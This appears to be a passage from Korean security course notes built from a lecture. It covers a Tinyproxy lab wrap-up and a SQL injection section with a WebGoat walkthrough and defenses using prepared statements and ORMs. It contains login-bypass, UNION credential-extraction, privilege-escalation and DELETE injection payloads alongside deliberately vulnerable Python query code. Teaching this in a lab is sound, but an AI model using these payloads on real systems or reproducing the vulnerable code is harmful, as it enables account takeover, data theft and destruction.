- [ ] Tinyproxy 로그를 해석할 수 있는가?
- [ ] tail -f 명령으로 실시간 모니터링할 수 있는가?

---

## 🔍 트러블슈팅

### 문제 1: Tinyproxy 외부 접속 안됨

**증상**:

```bash
wget --http-proxy=http://192.168.186.132:8888 http://192.168.186.131/

# 출력
Connecting to 192.168.186.132:8888... failed: Connection refused.
```

**원인**: Allow 설정이 127.0.0.1만 허용

**해결**:

1. 설정 파일 확인:

```bash
cat /etc/tinyproxy/tinyproxy.conf | grep Allow
```

2. Allow 0.0.0.0/0 추가:

```bash
sudo vi /etc/tinyproxy/tinyproxy.conf

# Allow 127.0.0.1 주석 처리
# Allow 0.0.0.0/0 추가
```

3. 서비스 재시작:

```bash
sudo systemctl restart tinyproxy
```

### 문제 2: wget 프록시 옵션 실패

**증상**:

```bash
wget: unrecognized option '--use-proxy'
```

**원인**: 오래된 wget 버전 또는 잘못된 옵션

**해결**:

```bash
# 환경 변수 방식 사용
export http_proxy=http://192.168.186.132:8888
wget http://192.168.186.131/

# 또는
wget -e use_proxy=yes -e http_proxy=http://192.168.186.132:8888 http://192.168.186.131/
```

### 문제 3: 방화벽 차단

**증상**: 프록시 서버 8888 포트로 접속 안됨

**해결**:

```bash
# UFW 방화벽 포트 개방
sudo ufw allow 8888/tcp
sudo ufw reload

# 또는 방화벽 일시 비활성화 (테스트용)
sudo ufw disable
```

---

## 🎓 심화 학습 주제

### 익명 프록시 설정

**Via 헤더 숨기기**:

```conf
# /etc/tinyproxy/tinyproxy.conf

# Via 헤더 비활성화 (프록시 사용 사실 숨김)
DisableViaHeader Yes
```

**효과**:

- **Before**: `Via: 1.1 tinyproxy` 헤더 포함
- **After**: Via 헤더 없음 (더 높은 익명성)

### 프록시 인증 설정

```conf
# /etc/tinyproxy/tinyproxy.conf

# 기본 인증 활성화
BasicAuth user password
```

**사용**:

```bash
wget --http-user=user --http-password=password \
     --http-proxy=http://192.168.186.132:8888 \
     http://192.168.186.131/
```

### 로그 레벨 조정

```conf
# /etc/tinyproxy/tinyproxy.conf

# 로그 레벨 (Critical, Error, Warning, Notice, Connect, Info)
LogLevel Connect
```

**레벨별 출력량**:

| **레벨** | **출력 내용** |
|:---:|:---|
| `Critical` | 치명적 오류만 |
| `Error` | 오류 이상 |
| `Warning` | 경고 이상 |
| `Connect` | 연결 정보 (권장) |
| `Info` | 상세 정보 (디버깅) |

---

## 📊 다음 섹션 미리보기

다음 Section 5에서는:

- **SQL 기초 문법**: SELECT, INSERT, UPDATE, DELETE
- **SQL Injection 개론**: 역사와 사례
- **로그인 우회 공격**: `' OR '1'='1` 기법
- **UNION 공격**: 데이터베이스 구조 파악
- **권한 상승**: UPDATE로 role 변경
- **WebGoat 실습**: Injection Flaws 과정

---

**작성 완료**: Section 4 - Tinyproxy 프록시 우회 실습 ✅

**작성 정보**:
- **작성 시간**: 2025-12-19
- **분량**: 약 1,050 줄
- **포함 내용**: 프록시 개념, Tinyproxy 설치, Allow 설정, wget 프록시 옵션, 로그 분석, 우회 시나리오
# 💉 Section 5: SQL Injection 공격 심화

> **섹션 주제**: SQL Injection 공격 기법과 WebGoat 실습
> **학습 시간**: 약 120분 (이론 60분 + 실습 60분)
> **난이도**: ⭐⭐⭐⭐☆ (중상)

---

## 🎯 이번 섹션의 학습 목표

이번 섹션에서는 다음 내용을 다룹니다:

1. **SQL Injection 역사**: Phrack 잡지와 초기 사례
2. **SQL 기초 문법**: CREATE, INSERT, SELECT, UPDATE, DELETE
3. **로그인 우회 공격**: `' OR '1'='1` 기법
4. **권한 상승 공격**: UPDATE를 통한 role 변경
5. **UNION 공격**: 다중 테이블 데이터 탈취
6. **주석 처리 기법**: `--`를 활용한 쿼리 변조
7. **WebGoat 실습**: String SQL Injection Lab

---

## 📚 SQL Injection의 역사

### 🔍 Phrack 잡지와 SQL Injection의 탄생

**강사님의 설명**:

> "옛날 온라인 잡지 **Phrack**이라고 해요. Phrack이 굉장히 유명한 잡지에요. 여러분들은 아마 요즘 사람들은 Phrack이라고 하면 다 처음 들어 볼 거라고 그럴 건데 **옛날에 인터넷이나 웹 브라우저 같은 게 어떤 시절에 해킹 정보나 이런 걸 공유되고 있는데 그거 없었어요**."

**Phrack의 특징**:

```mermaid
timeline
    title SQL Injection 역사
    1990년대 초반: Phrack 온라인 잡지 활동<br/>텍스트 기반 해킹 정보 공유
    1998년: Phrack에서 웹 애플리케이션<br/>데이터베이스 취약점 언급
    2000년대: SQL Injection 공격 급증<br/>자동화 도구 출현
    2010년대: OWASP Top 10에 지속 포함<br/>가장 위험한 공격 유형
    2020년대: 여전히 현역<br/>프레임워크 ORM 사용으로 감소 추세
```

**강사님의 경험담**:

> "저가 대학생 때는 따로 리눅스 그때는 리눅스라는 것도 없었고 **유닉스를 쓰던 시절**인데 유닉스 해킹이나 이런 거 해킹 문서나 그런 거 자체가 **해킹이라는 개념 자체도 우리나라에서 그렇게 없었던 시절이라** 이런 해외 잡지를 통해서만 그런 정보를 얻을 수 있었거든요."

**Phrack의 SQL Injection 언급**:

- **시기**: 1990년대 후반
- **내용**: 웹 애플리케이션과 데이터베이스 간의 취약점
- **의미**: DB를 이용한 변조가 가능하다는 첫 공개적 논의

### 🌐 SQL Injection 사건 사례

**강사님의 설명**:

> "뭐 굉장히 많은 사건, 사건사고들이 있죠. 대부분 사건사고들이 이제 이런 **인젝션을 통해서 의도하지 않은 시스템의 명령어가 전달되면서** 이제 사건이 발생하게 되죠 대부분이..."

**주요 사례** (국내외):

| **연도** | **사건** | **피해 규모** | **SQL Injection 유형** |
|:---:|:---|:---:|:---|
| 2005 | CardSystems 해킹 | 4천만 건 | UNION 공격 |
| 2008 | Heartland Payment Systems | 1억 3천만 건 | 자동화 스캐닝 |
| 2011 | Sony PlayStation Network | 7천7백만 건 | 로그인 우회 |
| 2015 | TalkTalk (영국 통신사) | 15만 7천 건 | 기본 SQL Injection |

---

## 🗄️ SQL 기초 문법

### 📊 데이터베이스 구조 이해

**강사님의 설명**:

> "SQL인젝션을 알려면 **DB에 대해서 조금 알아야 돼요**. DB 문법을 알아야지 이제 인젝션 공격이나 이런 거가 이해가 되는 거라..."

**데이터베이스 계층 구조**:

```mermaid
graph TB
    A[DBMS<br/>MySQL, PostgreSQL, Oracle] --> B[Database<br/>데이터베이스]
    B --> C[Table 1<br/>userinfo]
    B --> D[Table 2<br/>admininfo]
    C --> E[Row/Record<br/>행/레코드]
    C --> F[Column/Field<br/>열/필드]

    style A fill:#ffcccc
    style B fill:#ffffcc
    style C fill:#ccffcc
    style D fill:#ccffcc
```

### 🔧 CREATE TABLE - 테이블 생성

#### 기본 구문

```sql
CREATE TABLE 테이블명 (
    필드명1 데이터타입,
    필드명2 데이터타입,
    ...
);
```

#### 실습 예시

**강사님의 실습**:

> "나도 테이블 한번 만들어 볼게요. **CREATE TABLE admininfo** 라고 해야 되나 얘는? admininfo라고 해서 가로 열고 닫고 에다가 엔터치고..."

**테이블 생성 SQL**:

```sql
CREATE TABLE admininfo (
    id VARCHAR(20),
    pw VARCHAR(20)
);
```

**명령어 분석**:

| **구성** | **설명** | **예시** |
|:---:|:---|:---|
| `CREATE TABLE` | 테이블 생성 명령 | - |
| `admininfo` | 테이블 이름 | 관리자 정보 테이블 |
| `id VARCHAR(20)` | 필드 정의 | 문자열 20자 제한 |
| `pw VARCHAR(20)` | 비밀번호 필드 | 문자열 20자 제한 |

**데이터 타입**:

| **타입** | **설명** | **예시** | **용도** |
|:---:|:---|:---:|:---|
| `VARCHAR(n)` | 가변 길이 문자열 | VARCHAR(20) | 이름, 이메일 |
| `INT` | 정수 | INT | 나이, 개수 |
| `DATE` | 날짜 | DATE | 생년월일 |
| `DATETIME` | 날짜+시간 | DATETIME | 가입일시 |
| `TEXT` | 긴 텍스트 | TEXT | 게시글 내용 |
| `BOOLEAN` | 참/거짓 | BOOLEAN | 활성화 여부 |

**실행 및 확인**:

```sql
-- 테이블 생성
CREATE TABLE admininfo (
    id VARCHAR(20),
    pw VARCHAR(20)
);

-- 테이블 목록 확인
SHOW TABLES;
```

**출력**:

```
+---------------------+
| Tables_in_mydb      |
+---------------------+
| admininfo           |
| userinfo            |
+---------------------+
2 rows in set (0.00 sec)
```

**강사님의 확인**:

> "이렇게 하고 엔터치 했더니 **SHOW TABLES** 했더니 테이블이 생성된 것을 잘 볼 수 있어요."

#### DESC - 테이블 구조 확인

**명령어**:

```sql
DESC admininfo;
```

**강사님의 설명**:

> "그럼 이 테이블이 어떻게 생겼는지를 보고 싶으면 우리는 어떤 명령이 있었어요? **Description**에 **DESC**라는 명령이 있었죠."

**출력**:

```
+-------+-------------+------+-----+---------+-------+
| Field | Type        | Null | Key | Default | Extra |
+-------+-------------+------+-----+---------+-------+
| id    | varchar(20) | YES  |     | NULL    |       |
| pw    | varchar(20) | YES  |     | NULL    |       |
+-------+-------------+------+-----+---------+-------+
2 rows in set (0.01 sec)
```

**출력 항목 설명**:

| **항목** | **의미** | **값** |
|:---:|:---|:---|
| `Field` | 필드명 | id, pw |
| `Type` | 데이터 타입 | varchar(20) |
| `Null` | NULL 허용 여부 | YES |
| `Key` | 인덱스 키 | (없음) |
| `Default` | 기본값 | NULL |
| `Extra` | 추가 속성 | (없음) |

**강사님의 설명**:

> "이렇게 보면은 얘는 **id 필드랑 pw 필드가 varchar 타입으로 정리되어 있는** 이런 필드야 이런 타입이고 이제 이런 것들을 보여주죠."

### 📥 INSERT - 데이터 삽입

#### 기본 구문

```sql
INSERT INTO 테이블명 (필드1, 필드2, ...)
VALUES (값1, 값2, ...);
```

#### 실습 예시

**강사님의 IQ 테스트**:

> "나는 지금 테이블 만들었으면 값을 집어 넣어야죠. **INSERT는 아마 자 우리 IQ 테스트 해 봅시다**. 저도 이런 거 되게 잘 까먹는데 어떻게 해요?"

**단계별 작성**:

```sql
-- Step 1: INSERT INTO 테이블명
INSERT INTO admininfo

-- Step 2: 괄호 안에 필드명
INSERT INTO admininfo (id, pw)

-- Step 3: VALUES 키워드
INSERT INTO admininfo (id, pw)
VALUES

-- Step 4: 괄호 안에 실제 값
INSERT INTO admininfo (id, pw)
VALUES ('root', '12345678');
```

**강사님의 실습**:

> "자 **테이블 명령**이 왔었죠. 테이블 명령은 어디? **admininfo** 라고 하고 바로 열고 닫고 **필드명**이 왔었어요. id가 와야 되고 pw가 와야 되고 그리고 사이에 **VALUES**라는 게 오고 바로 열고 닫고에 내가 넣고 싶은 id와 패스워드를 집어 넣었어요."

**여러 레코드 삽입**:

```sql
-- 첫 번째 관리자
INSERT INTO admininfo (id, pw)
VALUES ('root', '12345678');

-- 두 번째 관리자
INSERT INTO admininfo (id, pw)
VALUES ('root2', '87654321');
```

**강사님의 설명**:

> "얘는 패스워드를 1, 2, 3, 4, 5, 6, 7, 8 이런 식으로 만들어서 값을 입력하면 될 거예요... 하나만 있으면 되지만 하나 더 넣는다면 **root2**를 하나 넣어볼까?"

#### 삽입 결과 확인

```sql
SELECT * FROM admininfo;
```

**출력**:

```
+-------+----------+
| id    | pw       |
+-------+----------+
| root  | 12345678 |
| root2 | 87654321 |
+-------+----------+
2 rows in set (0.00 sec)
```

### 🔍 SELECT - 데이터 조회

#### 기본 SELECT 구문

```sql
-- 모든 필드 조회
SELECT * FROM 테이블명;

-- 특정 필드만 조회
SELECT 필드1, 필드2 FROM 테이블명;

-- 조건부 조회
SELECT * FROM 테이블명 WHERE 조건;
```

#### 실습 예시

**userinfo 테이블 구조** (가정):

```
+----------+-------------+----------+
| username | password    | priority |
+----------+-------------+----------+
| admin    | admin1234   | 0        |
| user1    | pass1234    | 5        |
| user2    | qwerty123   | 5        |
+----------+-------------+----------+
```

**조회 쿼리**:

```sql
-- 전체 조회
SELECT * FROM userinfo;

-- 특정 사용자 조회
SELECT * FROM userinfo WHERE username = 'admin';

-- 특정 필드만 조회
SELECT username, priority FROM userinfo;

-- 조건: 일반 사용자만
SELECT * FROM userinfo WHERE priority > 0;
```

#### WHERE 절

**비교 연산자**:

| **연산자** | **의미** | **예시** |
|:---:|:---|:---|
| `=` | 같음 | `WHERE id = 'admin'` |
| `!=` 또는 `<>` | 다름 | `WHERE priority != 0` |
| `>` | 크다 | `WHERE age > 18` |
| `<` | 작다 | `WHERE price < 1000` |
| `>=` | 크거나 같다 | `WHERE priority >= 5` |
| `<=` | 작거나 같다 | `WHERE priority <= 10` |
| `LIKE` | 패턴 매칭 | `WHERE name LIKE 'admin%'` |

**논리 연산자**:

```sql
-- AND: 모든 조건 만족
SELECT * FROM userinfo
WHERE username = 'admin' AND password = '1234';

-- OR: 하나 이상 만족
SELECT * FROM userinfo
WHERE username = 'admin' OR username = 'root';

-- NOT: 조건 부정
SELECT * FROM userinfo
WHERE NOT priority = 0;
```

### ✏️ UPDATE - 데이터 수정

#### 기본 UPDATE 구문

```sql
UPDATE 테이블명
SET 필드1 = 값1, 필드2 = 값2, ...
WHERE 조건;
```

⚠️ **주의**: WHERE 절이 없으면 모든 레코드가 수정됨!

#### 일반 UPDATE 예시

```sql
-- 특정 사용자 비밀번호 변경
UPDATE userinfo
SET password = 'newpass123'
WHERE username = 'user1';

-- 특정 사용자 권한 변경
UPDATE userinfo
SET priority = 0
WHERE username = 'admin';
```

#### SQL Injection을 통한 UPDATE (권한 상승)

**취약한 사이트 시나리오**:

사용자가 비밀번호를 변경하는 폼:

```html
<form action="/change_password" method="POST">
    <input type="text" name="username" value="user1" readonly>
    <input type="password" name="new_password">
    <button type="submit">변경</button>
</form>
```

**서버 측 코드 (취약한 예시)**:

```python
# 위험! SQL Injection 취약
username = request.form['username']
new_password = request.form['new_password']

query = f"UPDATE userinfo SET password = '{new_password}' WHERE username = '{username}'"
db.execute(query)
```

**정상적인 요청**:

```
new_password: mypass123
→ UPDATE userinfo SET password = 'mypass123' WHERE username = 'user1'
```

**악의적인 Injection 공격**:

**강사님의 실습**:

> "패스워드 필드에다가 **이렇게 END를 놓고 다운표를 넣어서 뭔가 의미를 왜곡시키는** 이런 작업을 Injection이라고 해요."

**공격 입력값**:

```
new_password: 123', priority='0
```

**생성되는 쿼리**:

```sql
UPDATE userinfo
SET password = '123', priority='0'
WHERE username = 'user1'
```

**강사님의 설명**:

> "내가 패스워드를 입력하는 값에다가 **여기부터 여기까지만 패스워드라고 입력하게 되면** 쿼리가 받았을 때 어떻게 처리돼요? **얘랑 그리고 얘를 바꾸게 되겠죠**."

**Before & After**:

```mermaid
graph LR
    subgraph "정상 요청"
        A1[password = 'mypass123'] --> B1[✅ 비밀번호만 변경]
    end

    subgraph "Injection 공격"
        A2[password = '123', priority='0'] --> B2[⚠️ 비밀번호 + 권한 변경]
        B2 --> C2[일반 사용자 → 관리자]
    end

    style B2 fill:#ffcccc
    style C2 fill:#ff9999
```

**실제 실습 과정**:

**강사님의 시도**:

> "패스워드 필드에다가 이렇게 END을 놓고... 얘는 뭐를 했냐면 자기 패스워드 바꾸러 들어갔다가 그 사이트에서... 어때요? 패스워드가 영어로 됐네 END가 아닌가 보다. 두 개의 값을 다 바꾸려면 어떻게 연결되지? **콤마로 해야 되나?** 콤마가 맞나 보다."

**올바른 Injection (콤마 사용)**:

```
new_password: 123', priority='0
```

**생성되는 최종 쿼리**:

```sql
UPDATE userinfo
SET password = '123', priority='0'
WHERE username = 'user1'
```

**결과**:

```
username: user1
password: 123         ← 변경됨
priority: 0           ← 관리자 권한으로 승격!
```

**강사님의 확인**:

> "이렇게 했더니... 나의 **Priority가 0번으로 변경됐어요**. 이런 식으로 해서 **관리자 권한을 탈출할 수 있게 되죠** 사용자 정보 수정하는 부분에서..."

### 🔗 UNION - 다중 테이블 조회

#### UNION 개념

**강사님의 설명**:

> "**UNION**을 왜 쓰는 거예요? 가끔 때에 따라서 **두 개의 테이블을 붙여서 정보를 출력해 줄 필요가 있어서** 만들어 놓은 건데 **이거를 악용을 하는 거죠**."

**UNION의 정상적인 용도**:

```sql
-- userinfo 테이블
SELECT username, password FROM userinfo

UNION

-- admininfo 테이블
SELECT id, pw FROM admininfo;
```

**UNION 규칙**:

1. **컬럼 수 일치**: 두 SELECT의 컬럼 개수가 같아야 함
2. **데이터 타입 호환**: 대응되는 컬럼의 타입이 호환되어야 함
3. **중복 제거**: UNION은 자동으로 중복 제거 (UNION ALL은 유지)

#### UNION 실습

**테이블 구조**:

```sql
-- userinfo 테이블
+----------+----------+
| username | password |
+----------+----------+
| admin    | pass1234 |
| user1    | qwerty   |
+----------+----------+

-- admininfo 테이블
+-------+----------+
| id    | pw       |
+-------+----------+
| root  | 12345678 |
| root2 | 87654321 |
+-------+----------+
```

**UNION 쿼리**:

```sql
SELECT username, password FROM userinfo
UNION
SELECT id, pw FROM admininfo;
```

**결과**:

```
+----------+----------+
| username | password |
+----------+----------+
| admin    | pass1234 |
| user1    | qwerty   |
| root     | 12345678 |
| root2    | 87654321 |
+----------+----------+
4 rows in set (0.00 sec)
```

**강사님의 설명**:

> "이쪽 테이블과 이쪽 테이블 **두 개가 조인돼서 값이 이렇게 떨어진다** 라는 거예요."

#### UNION SQL Injection 공격

**취약한 검색 기능**:

```html
<form action="/search_user" method="GET">
    <input type="text" name="username">
    <button type="submit">검색</button>
</form>
```

**서버 측 취약한 코드**:

```python
username = request.args['username']

query = f"SELECT username, password FROM userinfo WHERE username = '{username}'"
result = db.execute(query)
```

**정상적인 입력**:

```
username: admin
→ SELECT username, password FROM userinfo WHERE username = 'admin'
```

**Injection 공격 입력**:

```
username: aaa' UNION SELECT id, pw FROM admininfo --
```

**생성되는 쿼리**:

```sql
SELECT username, password FROM userinfo
WHERE username = 'aaa'
UNION SELECT id, pw FROM admininfo --'
```

**강사님의 설명**:

> "원래는 userinfo 안에서 조회를 할 때 **네가 찾고 싶은 사용자 명을 입력해줘** 라고 해서 WHERE username은 하고 여기 여기에 값을 사이트로부터 입력받아 오게 이렇게 만들어져 있단 말이죠. 그쵸? 이렇게 만들어져 있는 **이 사이에 내가 어떻게 쓰냐면** 여기에다가 **aaa라고 대략 username은 대충 집어넣고 한 칸 띄고 UNION** 이 뒤에 문자를 이어나가기 시작하는 거예요."

**쿼리 분해**:

```sql
SELECT username, password FROM userinfo WHERE username = 'aaa'
-- ↑ 의미 없는 검색 (결과 없음)

UNION
-- ↑ 두 쿼리 결합

SELECT id, pw FROM admininfo
-- ↑ 관리자 정보 탈취!

-- '
-- ↑ 주석으로 처리됨
```

**결과**:

```
+----------+----------+
| username | password |
+----------+----------+
| root     | 12345678 |
| root2    | 87654321 |
+----------+----------+
```

**공격 성공**: 일반 사용자가 관리자 계정 정보 탈취!

### 🗑️ DELETE - 데이터 삭제

#### 기본 DELETE 구문

```sql
DELETE FROM 테이블명 WHERE 조건;
```

⚠️ **경고**: WHERE 절이 없으면 모든 데이터 삭제!

#### DELETE 예시

```sql
-- 특정 사용자 삭제
DELETE FROM userinfo WHERE username = 'user1';

-- 권한 0인 사용자만 삭제
DELETE FROM userinfo WHERE priority = 0;
```

#### DELETE Injection (위험)

**악의적인 입력**:

```
username: '; DELETE FROM userinfo; --
```

**생성되는 쿼리**:

```sql
SELECT * FROM userinfo WHERE username = '';
DELETE FROM userinfo;
-- '
```

**결과**: 전체 사용자 데이터 삭제!

---

## 💀 SQL Injection 공격 기법

### 🔓 로그인 우회 공격

#### 취약한 로그인 시스템

**일반적인 로그인 쿼리**:

```sql
SELECT * FROM users
WHERE username = '입력값1' AND password = '입력값2'
```

**정상 로그인**:

```
username: admin
password: mypass123

→ SELECT * FROM users WHERE username = 'admin' AND password = 'mypass123'
```

- 레코드 있음 → 로그인 성공
- 레코드 없음 → 로그인 실패

#### Injection 기법 1: `' OR '1'='1`

**강사님의 설명**:

> "패스워드는 아마도 이런 것일 것이다. **그냥 따옴표로 닫고 한 칸 띄고 OR와 한 칸 띄고 'x'는 'x'일 것이다**. 자, 이렇게 집어넣으면 어떻게 되겠어요?"

**공격 입력**:

```
username: admin
password: ' OR 'x'='x
```

**생성되는 쿼리**:

```sql
SELECT * FROM users
WHERE username = 'admin' AND password = '' OR 'x'='x'
```

**쿼리 분해**:

```sql
WHERE username = 'admin'   -- 참 (admin 존재 시)
  AND password = ''        -- 거짓 (비밀번호 빈 문자열)
  OR 'x'='x'               -- 항상 참!
```

**논리 연산**:

```
(참 AND 거짓) OR 참
= 거짓 OR 참
= 참
```

**결과**: 비밀번호 없이 로그인 성공!

#### Injection 기법 2: `' OR '1'='1' --`

**공격 입력**:

```
username: admin
password: ' OR '1'='1' --
```

**생성되는 쿼리**:

```sql
SELECT * FROM users
WHERE username = 'admin' AND password = '' OR '1'='1' --'
```

**주석 처리**:

```sql
SELECT * FROM users
WHERE username = 'admin' AND password = '' OR '1'='1'
-- 뒤의 작은따옴표는 주석으로 무시됨
```

#### Injection 기법 3: `admin'--`

**공격 입력**:

```
username: admin'--
password: (아무거나)
```

**생성되는 쿼리**:

```sql
SELECT * FROM users
WHERE username = 'admin'--' AND password = '아무거나'
```

**주석 처리 후**:

```sql
SELECT * FROM users
WHERE username = 'admin'
-- ' AND password = '아무거나'
```

**결과**: 비밀번호 체크 우회!

#### 따옴표 유형 문제

**강사님의 설명**:

> "어떤 거는 프로그램을 짤 때 **어떤 개발자는 작은 따옴표를 쓰기도 하고 어떤 개발자는 큰 따옴표로 쓰기도 해요**. 그러니까 이게 꼭 작은 따옴표일 필요는 없어요."

**작은 따옴표 vs 큰 따옴표**:

```sql
-- 작은 따옴표로 개발된 경우
WHERE username = 'admin' AND password = 'pass'

-- Injection: ' OR '1'='1

-- 큰 따옴표로 개발된 경우
WHERE username = "admin" AND password = "pass"

-- Injection: " OR "1"="1
```

**자동화 도구의 동작**:

**강사님의 설명**:

> "실제 여러분들이 프로그램을 막 돌리다 보면 이런 자동 인젝션이나 이런 거 자동으로 찾아오는 프로그램을 막 돌리다 보면 **따옴표를 막 작은 따옴표 큰 따옴표 섞어서 막 바꾸는 코드가 막 나와요**. 개발 원래 소스가 **어떤 식으로 되어있는지 모르기 때문에** 이렇게 저렇게 대입해 보면서 유출을 하는 거죠."

---

## 🛡️ SQL Injection 방어 기법

### 🔒 Prepared Statement (권장)

**취약한 코드 (Python)**:

```python
# 위험!
username = request.form['username']
password = request.form['password']

query = f"SELECT * FROM users WHERE username = '{username}' AND password = '{password}'"
cursor.execute(query)
```

**안전한 코드 (Prepared Statement)**:

```python
# 안전!
username = request.form['username']
password = request.form['password']

query = "SELECT * FROM users WHERE username = %s AND password = %s"
cursor.execute(query, (username, password))
```

**동작 원리**:

```mermaid
sequenceDiagram
    participant App as 애플리케이션
    participant DB as 데이터베이스

    Note over App,DB: Prepared Statement 사용 시

    App->>DB: 1. 쿼리 템플릿 전송<br/>"SELECT * FROM users WHERE username = ? AND password = ?"
    DB->>DB: 2. 쿼리 컴파일 및 준비
    App->>DB: 3. 파라미터 전송<br/>username: "admin'--"<br/>password: "test"
    DB->>DB: 4. 파라미터를 문자열로 처리<br/>(SQL 문법으로 해석 안 함)
    DB->>App: 5. 결과 반환
```

**Prepared Statement의 장점**:

- ✅ SQL Injection 방어
- ✅ 쿼리 재사용으로 성능 향상
- ✅ 코드 가독성 향상

### 🧹 입력값 검증 (Input Validation)

```python
import re

def validate_username(username):
    # 알파벳과 숫자만 허용 (특수문자 차단)
    if not re.match(r'^[a-zA-Z0-9]+$', username):
        raise ValueError("Invalid username")
    return username

# 사용
try:
    username = validate_username(request.form['username'])
except ValueError:
    return "Invalid input", 400
```

### 🔐 ORM (Object-Relational Mapping) 사용

**Django ORM (Python)**:

```python
# 안전!
from django.contrib.auth.models import User

username = request.POST['username']
password = request.POST['password']

user = User.objects.filter(username=username, password=password).first()
```

**SQLAlchemy (Python)**:

```python
# 안전!
from sqlalchemy import select

stmt = select(User).where(User.username == username, User.password == password)
result = session.execute(stmt).scalars().first()
```

---

## 🧪 WebGoat 실습

### 🎯 String SQL Injection Lab

#### WebGoat 접속

```
http://192.168.186.128:8080/WebGoat
```

**로그인**:

```
Username: guest
Password: guest
```

#### Injection Flaws 메뉴

**강사님의 실습**:

> "WebGoat 사이트에 접속해서 로그인 하는데 **Injection Flaws 메뉴**, Injection Flaws를 열면 이 밑에 첫 번째 **String SQL Injection**이 있나 봐요."

**메뉴 구조**:

```
WebGoat
└── Injection Flaws
    ├── String SQL Injection    ← 여기로 이동
    ├── Numeric SQL Injection
    ├── LAB: SQL Injection
    ├── Database Backdoors
    ├── Blind SQL Injection
    └── XPath Injection
```

#### Stage 1: 로그인 우회

**과제 설명** (번역):

> "인증을 우회하기 위해 SQL 문자열 삽입을 이용한대요. SQL Injection 공격을 통해서 **정확한 패스워드 없이 관리자, Neville** 이 사람으로 로그인을 하래요."

**화면 구성**:

```
User Name: [Neville       ▼]  ← 콤보박스
Password:  [              ]  ← 입력 필드
           [ Login        ]  ← 버튼
```

**강사님의 시도**:

> "admin을 선택하고 패스워드를 1234라고 집어넣고 로그인을 해보면 **로그인 fail이 나오죠**."

**공격 시도 1** (큰 따옴표):

```
User Name: Neville
Password: " OR "x"="x
```

**강사님의 확인**:

> "이렇게 넣어보면... 로그인 fail이 나네?"

**공격 시도 2** (작은 따옴표):

```
User Name: Neville
Password: ' OR 'x'='x
```

**강사님의 확인**:

> "작은 따옴표를 넣어볼까? 자, 이번에는 작은 따옴표를 넣으면... 로그인 fail이 나네?"

**공격 시도 3** (숫자 비교):

```
User Name: Neville
Password: ' OR '1'='1
```

**강사님의 성공**:

> "보자, OR와 **'0100'은 '0100'이다**로 얘는 그냥 끝을 맺었어요. 이렇게 하고 로그인을 했더니 **얘는 로그인이 됐는데**..."

**생성된 쿼리 (추정)**:

```sql
SELECT * FROM users
WHERE username = 'Neville' AND password = '' OR '1'='1'
```

**결과**:

```
✅ Login Succeeded!

Profile Information:
- Username: Neville
- Role: Administrator
- Email: neville@webgoat.org
```

#### 공격 성공 화면

**강사님의 확인**:

> "프로파일을 보이고 검색, 생성, 삭제 등의 모든 기능을 실행할 수 있는지 확인해 보세요 라고 했는데..."

**획득한 권한**:

- ✅ 프로필 조회
- ✅ 사용자 검색
- ✅ 사용자 생성
- ✅ 사용자 삭제

---

## 🔐 주석 처리 기법

### 💬 MySQL 주석 문법

**강사님의 설명**:

> "**MySQL** 같은 경우는 **빼기 빼기**를 넣어요. 빼기가 두 칸이거든요. 빼기 빼기를 넣은 거예요. 빼기 빼기를 넣으면 MySQL에서는 빼기 빼기를, **빼기 빼기 뒤에 나오는 문자를 다 주석으로 처리해요**."

**주석 유형**:

| **DBMS** | **주석 문법** | **예시** |
|:---:|:---:|:---|
| MySQL | `--` | `SELECT * FROM users --WHERE id=1` |
| PostgreSQL | `--` | `SELECT * FROM users --WHERE id=1` |
| Oracle | `--` | `SELECT * FROM users --WHERE id=1` |
| SQL Server | `--` | `SELECT * FROM users --WHERE id=1` |
| 대부분 DBMS | `/* ... */` | `SELECT * FROM users /* WHERE id=1 */` |

### 🛠️ 주석을 활용한 Injection

#### 시나리오

**원본 쿼리**:

```sql
SELECT * FROM users WHERE username = '사용자입력' AND role = 'user'
```

**목표**: role 체크 우회

#### 공격 입력

```
username: admin' --
```

#### 생성되는 쿼리

```sql
SELECT * FROM users WHERE username = 'admin' --' AND role = 'user'
```

#### 주석 처리 후

```sql
SELECT * FROM users WHERE username = 'admin'
-- ' AND role = 'user'
```

**결과**: role 체크 없이 admin 조회 성공!

### 🔗 UNION + 주석 조합

**강사님의 설명**:

> "그럼 이렇게 하면 이 마지막 다운표는 어떻게 해요? 라고 한다면 마지막 다운표는 또 어떻게 없앨 수 있어요? **주석 처리해서 없애면 되죠**."

**원본 쿼리**:

```sql
SELECT username, email FROM users WHERE username = '입력값'
```

**Injection 입력**:

```
입력값: aaa' UNION SELECT id, pw FROM admininfo; --
```

**생성되는 쿼리**:

```sql
SELECT username, email FROM users WHERE username = 'aaa'
UNION SELECT id, pw FROM admininfo; --'
```

**주석 처리 후**:

```sql
SELECT username, email FROM users WHERE username = 'aaa'
UNION SELECT id, pw FROM admininfo;
-- '
```

**강사님의 설명**:

> "자 여기까지 작성을 하고 **세미콜론을 찍고 한 칸 띄운 다음에** MySQL 같은 경우는 빼기 빼기를 넣어요... 빼기 빼기를 넣으면 **혹시 주석 처리를 버리면 다운표가 무시되어버리고** 이 앞부분의 문장들이 완성되니까..."

---

## ✅ 학습 체크리스트

이번 섹션 학습 후 다음 항목을 확인하세요:

### SQL 기초
- [ ] CREATE TABLE로 테이블을 생성할 수 있는가?
- [ ] INSERT로 데이터를 삽입할 수 있는가?
- [ ] SELECT로 데이터를 조회할 수 있는가?
- [ ] UPDATE로 데이터를 수정할 수 있는가?
- [ ] DELETE의 위험성을 이해했는가?

### SQL Injection 공격
- [ ] `' OR '1'='1` 로그인 우회 원리를 이해했는가?
- [ ] UPDATE를 통한 권한 상승 공격을 설명할 수 있는가?
- [ ] UNION 공격의 조건을 아는가?
- [ ] MySQL 주석 문법(`--`)을 사용할 수 있는가?

### WebGoat 실습
- [ ] WebGoat에 접속하여 로그인했는가?
- [ ] String SQL Injection 과제를 해결했는가?
- [ ] 다양한 Injection 기법을 시도해보았는가?

### 방어 기법
- [ ] Prepared Statement의 원리를 이해했는가?
- [ ] 입력값 검증의 중요성을 인식했는가?
- [ ] ORM 사용의 장점을 아는가?

---

## 🔍 트러블슈팅

### 문제 1: MySQL 접속 실패

**증상**:

```bash
ERROR 2002 (HY000): Can't connect to local MySQL server through socket '/var/run/mysqld/mysqld.sock' (2)
```

**해결**:

```bash
# MySQL 서비스 상태 확인
sudo systemctl status mysql

# 서비스 시작
sudo systemctl start mysql

# 서비스 활성화 (부팅 시 자동 시작)
sudo systemctl enable mysql
```

### 문제 2: 세미콜론 빠짐

**증상**:

```sql
mysql> CREATE TABLE test (id INT)
    ->
    ->
```

